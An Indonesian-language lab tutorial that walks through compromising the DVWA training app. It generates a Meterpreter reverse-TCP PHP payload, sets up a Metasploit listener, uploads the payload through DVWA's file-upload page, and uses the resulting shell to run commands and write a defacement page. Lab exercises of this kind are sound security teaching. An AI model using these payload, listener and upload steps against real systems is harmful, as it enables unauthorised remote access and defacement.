

## LESSON 8

Inti dari Lesson 8 adalah mendapatkan 4 hal, yaitu:
1. Membuat **php/meterpreter/reverse_tcp payload**
2. Menjalankan **php/meterpreter/reverse_tcp listener**
3. Mengunggah **php payload** menggunakan **DVWA Upload Screen**
4. Menggunakan **php payload** untuk membuat koneksi dengan **DVWA**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membangun PHP msfpayload**
1. Masukkan command berikut untuk membuat **msfpayload**

```
mkdir -p /root/backdoor
cd /root/backdoor
msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=4444 R > PHONE_HOME.php
ls -l PHONE_HOME.php
```


2. **Edit PHONE_HONE.php**

```
Hilangkan # pada <?php
```


**B. Menjalankan PHP Payload Listener**
1. Masukkan command berikut

```
msfconsole
```



2. Jalankan command berikut

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 4444
exploit
```


**C. Login DVWA**


**D. Ubah Security Level**


**E. Upload PHP Payload**
1. Masuk ke dalam **Upload** lalu klik **Browse* dan cari file **PHONE_HOME.php**


2. Klik **Upload** sehingga muncul pesan sama seperti gambar di bawah


Didapatkan **Privileges** dari **User** yang diinginkan

3. Aktifkan **PHONE_HOME.php** dengan cara klik file tersebut setelah berada di halaman berikut

```
http://192.168.1.103/dvwa/hackable/uploads/
```


4. Koneksi telah stabil


5. Lakukan **Shell**

```
shell
uptime
pwd
whoami
w
echo "Hacked at 12-18-2017, by Sani Hacker" > hacked.html
ls -l
```


**F. Testing**
1. Buka **hacked.html** pada alamat berikut

```
http://192.168.1.103/dvwa/hackable/uploads
```


2. Hasil


### Kesimpulan Lesson 8

Menggunakan **msfconsole** dapat menambahkan file-file baru pada **DVWA**
